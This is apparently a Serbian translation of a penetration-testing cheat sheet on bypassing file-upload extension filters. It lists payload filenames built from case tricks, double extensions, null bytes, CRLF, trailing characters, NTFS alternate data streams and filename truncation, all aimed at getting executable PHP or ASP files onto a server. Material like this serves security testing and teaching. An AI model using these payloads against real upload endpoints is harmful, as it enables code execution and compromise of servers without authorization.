 ### Bypass provere ekstenzija fajlova

1. Ako se primenjuju, **proverite** **prethodne ekstenzije**. Takođe ih testirajte koristeći neka **velika slova**: _pHp, .pHP5, .PhAr ..._
2. _Proverite **dodavanjem validne ekstenzije pre** izvršne ekstenzije (koristite i prethodne ekstenzije):_

* _file.png.php_
* _file.png.Php5_

3. Pokušajte dodavanjem **specijalnih karaktera na kraju.** Možete koristiti Burp da **bruteforce-ujete** sve **ascii** i **Unicode** karaktere. (_Imajte na umu da možete pokušati koristiti i **prethodno** pomenute **ekstenzije**_)

* _file.php%20_
* _file.php%0a_
* _file.php%00_
* _file.php%0d%0a_
* _file.php/_
* _file.php.\\_
* _file._
* _file.php...._
* _file.pHp5...._

4. Pokušajte da zaobiđete zaštitu **prevareći parser ekstenzija** na serverskoj strani tehnikama poput **udvajanja** **ekstenzije** ili dodavanja **beskorisnih** podataka (**nula** bajtova) između ekstenzija. _Takođe možete koristiti **prethodne ekstenzije** da biste pripremili bolji payload._

* _file.png.php_
* _file.png.pHp5_
* _file.php#.png_
* _file.php%00.png_
* _file.php\x00.png_
* _file.php%0a.png_
* _file.php%0d%0a.png_
* _file.phpJunk123png_

5. Dodajte **još jedan sloj ekstenzija** prethodnoj proveri:

* _file.png.jpg.php_
* _file.php%00.png%00.jpg_

6. Pokušajte da stavite **izvršnu ekstenziju pre validne ekstenzije** i nadajte se da je server loše konfigurisan. (korisno za eksploataciju Apache konfiguracija gde će bilo šta sa ekstenzijom\*\* _**.php**_**, ali** ne nužno završava u .php\*\* izvršiti kod):

* _npr: file.php.png_

7. Korišćenje **NTFS alternativnog toka podataka (ADS)** u **Windows-u**. U ovom slučaju, karakter dvotačke ":" će biti ubačen posle zabranjene ekstenzije i pre dozvoljene. Kao rezultat, na serveru će biti kreiran **prazan fajl sa zabranjenom ekstenzijom** (npr. "file.asax:.jpg"). Ovaj fajl može biti kasnije izmenjen korišćenjem drugih tehnika kao što je korišćenje njegovog kratkog imena fajla. Obrazac “**::$data**” takođe može biti korišćen za kreiranje nepraznih fajlova. Stoga, dodavanje tačke nakon ovog obrasca takođe može biti korisno za zaobilaženje daljih restrikcija (npr. “file.asp::$data.”)
8. Pokušajte da pređete granice imena fajla. Validna ekstenzija se odseče. A zlonamerni PHP ostaje. AAA<--SNIP-->AAA.php
